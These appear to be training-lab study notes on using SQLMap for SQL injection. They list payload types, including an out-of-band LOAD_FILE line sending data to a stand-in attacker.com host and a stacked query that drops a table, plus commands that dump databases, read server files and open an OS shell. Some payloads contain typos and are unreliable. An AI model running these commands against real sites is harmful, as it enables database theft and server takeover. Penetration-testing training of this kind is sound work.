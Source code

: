 
To use SQLMap we can use : `python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'`
To install SQLMap : 
``` shell
# For Linux
sudo apt install sqlmap

#For Windows
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
```

## Types of SQLi
- **Boolean-based Blind SQL Injection** : `AND 1=1`
- **Error-based SQL Injection** : `AND GTIF_SUBSET(@@version,0)`
- **Union query based** : `UNION ALL SELECT 1,@@version,3`
- **Stacked Queries** : `; DROPE TABLE users`
- **Time-based Blind SQL Injection** : `AND 1=IF(2>1,SLEEP(5),0)`
- **Inline Queries** : `SELECT(SELECT @@version) from`
- **Out-of-band SQL Injection** : `LOAD_FILE(CONCAT('\\\',@@version,'.attacker.com\\README.txxt'))`

## Levels of Help Message Listing
- Basic Listing : `sqlmap -h`
- Advanced Listing: `sqlmap --hh`

Command used to run SQLMap : `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`

> Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.

## cURL Commands
One of the best and easiest ways to properly set up an SQLMap request against the specific target (i.e., web request with parameters inside) is by utilizing `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools: ![Network panel showing a GET request to www.example.com with a 404 status, and a context menu with options like 'Copy as cURL'.](https://academy.hackthebox.com/storage/modules/58/M5UVR6n.png)

By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`, we are able to use SQLMap with the identical `curl` command:

Running SQLMap on an HTTP Request

```shell-session
ShibuShivansh@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (e.g. `--crawl`, `--forms` or `-g`).

## GET/POST Requests
For GET Request, we need to run the command : `sqlmap --url "https://domain.com"`

For POST Request, we need to run the command : `sqlmap 'http://www.example.com/' --data 'uid=1&name=test`
> Now here both the parameters `uid` and `name` will be tested, but if we need one of them to be tested then it should be like `uid1*&name=test`, so here UID must be tested.

## Full HTTP Request
Create a file named as `req.txt` and insert the HTTP Request Packet there. And then use the command : `sqlmap -r req.txt`

## Specifying a Cookie 
- Using a flag `--cookie`  : `sqlmap "http://www.example.com/" --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
- Using a flag `-H/--header` : `sqlmap "http://www.example.com/" -H='Cookie:ab4530f4a7d10448457fa8b0eadac29c'`

**Specifying alternative HTTP Method :** `sqlmap -u www.target.com --data='id=1' --method PUT`


We should also use two flags to extract information : `--batch --dump`

`sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch`: In this command , `-p` specifies parameter to be tested, `--dump -T flag2` instructs SQLmap to dump (extract) all data from the table named flag2.

To store the traffic, we can use this command : `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`

To raise the verbosity of the scan, we can use the command : `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`

To use proxy as Burp we use the command : `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch --proxy 127.0.0.1:8080`

## Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run.  
For such runs, options `--prefix` and `--suffix` can be used as follows:

Code: bash

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```


## Level/Risk
- The option `--level` (`1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).
    
- The option `--risk` (`1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).

#### Status Codes

For example, when dealing with a huge target response with a lot of dynamic content, subtle differences between `TRUE` and `FALSE` responses could be used for detection purposes. If the difference between `TRUE` and `FALSE` responses can be seen in the HTTP codes (e.g. `200` for `TRUE` and `500` for `FALSE`), the option `--code` could be used to fixate the detection of `TRUE` responses to a specific HTTP code (e.g. `--code=200`).

#### Titles

If the difference between responses can be seen by inspecting the HTTP page titles, the switch `--titles` could be used to instruct the detection mechanism to base the comparison based on the content of the HTML tag `<title>`.

#### Strings

In case of a specific string value appearing in `TRUE` responses (e.g. `success`), while absent in `FALSE` responses, the option `--string` could be used to fixate the detection based only on the appearance of that single value (e.g. `--string=success`).

#### Text-only

When dealing with a lot of hidden content, such as certain HTML page behaviors tags (e.g. `<script>`, `<style>`, `<meta>`, etc.), we can use the `--text-only` switch, which removes all the HTML tags, and bases the comparison only on the textual (i.e., visible) content.

#### Techniques

In some special cases, we have to narrow down the used payloads only to a certain type. For example, if the time-based blind payloads are causing trouble in the form of response timeouts, or if we want to force the usage of a specific SQLi payload type, the option `--technique` can specify the SQLi technique to be used.

For example, if we want to skip the time-based blind and stacking SQLi payloads and only test for the boolean-based blind, error-based, and UNION-query payloads, we can specify these techniques with `--technique=BEU`.

#### UNION SQLi Tuning

In some cases, `UNION` SQLi payloads require extra user-provided information to work. If we can manually find the exact number of columns of the vulnerable SQL query, we can provide this number to SQLMap with the option `--union-cols` (e.g. `--union-cols=17`). In case that the default "dummy" filling values used by SQLMap -`NULL` and random integer- are not compatible with values from results of the vulnerable SQL query, we can specify an alternative value instead (e.g. `--union-char='a'`).

Furthermore, in case there is a requirement to use an appendix at the end of a `UNION` query in the form of the `FROM <table>` (e.g., in case of Oracle), we can set it with the option `--union-from` (e.g. `--union-from=users`).  
Failing to use the proper `FROM` appendix automatically could be due to the inability to detect the DBMS name before its usage.

Commands as per Risk and Levels : 
1. `sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch`
2. `sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch`
3. `sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch`
4. `sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb --no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries`
5. `sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='`)'`
6. `sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL`
7. `sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb -dbms=MySQL --batch`
8. `sqlmap -r Case1.txt --threads 10 --search -C style --batch`
9. `sqlmap -r Case1.txt --threads 10 --dump -D testdb -T users --batch`
10. `sqlmap -r Case8.txt --csrf-token=t0ken -T flag8 --dump --risk=3 --level=5 --batch`
11. `sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid`
12. `sqlmap -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch`
13. `sqlmap -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10`
14. `sqlmap -r OsExploit.txt --file-read "/var/www/html/flag.txt" --batch --threads 10`
15. `sqlmap -r OsExploit.txt --os-shell --threads 10 --batch`
16. `sqlmap -r Add-To-Cart.txt --threads 10 --tamper=between -T final_flag --dump --batch`